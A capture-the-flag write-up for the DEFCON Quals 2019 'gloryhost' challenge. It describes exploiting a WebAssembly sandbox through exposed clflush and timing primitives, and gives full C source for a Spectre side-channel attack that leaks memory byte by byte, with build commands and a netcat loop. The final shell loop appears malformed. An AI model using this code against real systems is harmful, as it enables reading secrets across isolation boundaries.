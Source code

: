 ```yaml
---
layout: post
title: DEFCON Quals 2019, Gloryhost
date:   2019-05-13 18:43:49 -0400
categories: ctf defcon quals
comments: true
---
```


<img src="/assets/gloryhost.jpg">

Author: mattypiper

Contributors: mattypiper, fringe

## Description

gloryhost is a 64-bit Linux ELF network service written in Rust. It accepts compiled WebAssembly programs on port 9999
and executes the wasm program in a seccomp filtered sandbox. After figuring out how to generate a wasm program written in
C using wasi-sdk, we were able to load our code into the service using base64. The service then responds with an error message expecting
a certain export that was not found:

> your code makes me feel funny: unable to resolve entry point: Export not found: this_is_what_ive_got

Defining this function in C and setting it as the entry point allows the code to execute.

```c
int this_is_what_ive_got()
{
    return 0;
}
```

```bash
/opt/wasi-sdk/bin/clang -o test.wasm -Wl,-e,this_is_what_ive_got test.c
```

Gloryhost appears to print the return value of your function and execute the C code.
Attempting to execute libc functions such as `open()` and `read()`
results in the service dying prematurely with a trap:

> your code makes me feel funny: unable to execute entry point: WebAssembly trap occured during runtime: unknown

The service disables syscalls with seccomp, hence the WebAssembly trap. At this point we discovered a set of functions in the
gloryhost namespace that were interesting.

1. `wasi_debug_flush` executes the x86 clflush instruction on the pointer argument
1. `wasi_check_data`, `wasi_get_data_size` and the`wasi_get_data*` functions were recognized as a set of functions that implement
a few of the "primitives" required to execute the [Spectre](https://spectreattack.com/spectre.pdf) attack (speculative execution cache side channel).
1. `wasi_debug_read` performs a C-style read of the pointer argument, required for Spectre.
1. `wasi_debug_ts` executes the x86 `rdtsc` instruction, a timing instrument that can be used to execute the Spectre attack.

Inspection with strace and gdb revealed that the challenge flag was being loaded into the .bss entry `_data6` at 0xe86120.
This memory is inaccessible using the `wasi_get_data` functions, as they were only provided for memory areas data2 thru data5.

At this point, we laid out the plan: Call the `gloryhost::wasi` functions from our C code in a Spectre-style attack
to read the flag from memory.

To call the external code, we had to define the functions as `extern` and use the linker directive 
`-Wl,--allow-undefined` to avoid link errors. Getting the function arguments and return values to line up
was aided by the dynamic WebAssembly linker built into gloryhost, which printed helpful messages such as:

> your code makes me feel funny: unable to resolve entry point: Parameters of type [] did not match signature [I32] -> [I32]

For getting the flag itself, the only instrument provided to send data back to the client was via the 32-bit return value
of the `this_is_what_ive_got` function. For example, returning 0xdeadbeef from `this_is_what_ive_got` would print:

> YOU'VE GOT deadbeef

We based our Spectre implementation on an
[existing Spectre PoC from ErikAugust](https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6).

As we implemented the Spectre attack, we had to take care to avoid using pointers or array indexing. This was because
the wasi-sdk only supported 32-bit mode. So we wrote the function prototypes replacing pointers with uint64_t, as follows:

```c
extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();
```

And after some more thought, we realized that direct pointer/array accesses would not even work as expected
when crossing the boundary from WebAssembly to C/amd64.

Anyway, after tuning the cache timing threshold, we were able to read the flag one byte at a time (we kept
the code from the PoC that also generated a score and put that in the return value as well to be able to gauge
the confidence of each flag byte).

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>

extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();

#define CACHE_HIT_THRESHOLD (600) /* assume cache hit if time <= threshold */

/* aliases from github poc to gloryhost:
     array2 = get_data5()
     array1_size = get_data_size()
     victim_function = check_data()
     array1 = get_data3()
     flag is in _data6  */

void readMemoryByte(uint32_t malicious_x, uint8_t value[2], int score[2])
{
    int results[256];
    int tries, i, j, k, mix_i;
    unsigned int junk = 0;
    uint64_t time1, time2;
    size_t training_x, x;
    volatile uint8_t* addr;

    for (i = 0; i < 256; i++)
        results[i] = 0;

    for (tries = 999; tries > 0; tries--) {
        // flush data5 from cache
        for (int i = 0; i < 256; i++) {
            uint64_t p = get_data5();
            p += i*512;
            debug_flush(p);
        }

        // 30 loops, 5 training runs per attack
        training_x = tries % 16; // 16 == nelements(array1_size)
        for (j = 29; j >= 0; j--) {
            debug_flush(get_data_size());

            // delay
            for (volatile int z = 0; z < 100; z++);

            // bit twiddling
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            check_data(x);
        }

        // time reads
        for (int i = 0; i < 256; ++i) {
            mix_i = ((i * 167) + 13) & 255;

            uint64_t addr  = get_data5();
            addr += mix_i * 512;
            time1 = debug_ts();
            debug_read(addr);
            time2 = debug_ts() - time1;
            if (time2 <= CACHE_HIT_THRESHOLD)
                results[mix_i]++;
        }

        j = k = -1;
        for (i = 0; i < 256; i++)
        {
            if (j < 0 || results[i] >= results[j])
            {
                k = j;
                j = i;
            }
            else if (k < 0 || results[i] >= results[k])
            {
                k = i;
            }
        }
        if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
            break;
    }

    value[0] = (uint8_t)j;
    score[0] = results[j];
    value[1] = (uint8_t)k;
    score[1] = results[k];
}

int this_is_what_ive_got()
{
    uint32_t malicious_x = 0x100 + MALOFFSET; // use compiler argument to "step" this index
    int score[2], len = 2;
    uint8_t value[2];
    readMemoryByte(malicious_x, value, score);
    return (value[0] << 24) | (value[1] << 16) | ((score[0] & 0xff)<<8) | (score[1] & 0xff);
}

int main() {}
```

Compile with:

```sh
/opt/wasi-sdk/bin/clang -DMALOFFSET=1 -Ofast -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c
```

Leak one byte at a time with a script:
```sh
for i in `seq 0 40`; do \
    nc -N gloryhost.quals2019.oooverflow.io 9999; done | \
    /opt/wasi-sdk/bin/clang -DMALOFFSET=$i -Ofast -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c && \
    cat solve.wasm | base64 -w0 | nc -N localhost 9999 | egrep '^YOU' | cut -d' ' -f3 | cut -c1-2| xxd -r -p; \
    done
```
